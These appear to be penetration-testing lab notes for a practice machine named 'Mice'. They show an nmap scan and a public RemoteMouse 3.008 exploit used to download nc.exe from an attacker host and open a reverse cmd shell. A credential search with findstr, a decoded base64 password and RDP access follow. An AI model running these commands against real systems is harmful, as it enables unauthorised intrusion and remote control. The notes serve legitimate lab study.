

# Mice

## Initial Access
* nmap
```
1978/tcp open  remotemouse    Emote Remote Mouse
1979/tcp open  unisql-java?
1980/tcp open  pearldoc-xact?
3389/tcp open  ms-wbt-server  Microsoft Terminal Services
```

* Port 1979 -> unisql-java -> RemoteMouse 3.008 - Arbitrary Remote Command Execution 

* https://github.com/p0dalirius/RemoteMouse-3.008-Exploit/blob/master/RemoteMouse-3.008-Exploit.py

```
python3 RemoteMouse-3.008-Exploit.py --target-ip 192.168.195.199 --cmd 'powershell -c "curl http://192.168.45.204/nc.exe -o C:/Windows/Temp/nc.exe"'
```
```
python3 RemoteMouse-3.008-Exploit.py --target-ip 192.168.195.199 --cmd 'powershell -c "C:/Windows/Temp/nc.exe 192.168.45.204 80 -e cmd"'
```

## Priv Esc

* Search for sensitive files.
```
findstr /SIM /C:"pass" *.ini *.cfg *.xml
```


```
┌──(kali㉿kali)-[~/Desktop/Offsec/Lab-Notes/mice]
└─$ echo Q29udHJvbEZyZWFrMTE | base64 -d                          
ControlFreak11  
```

* RDP as divine

* https://www.exploit-db.com/exploits/50047


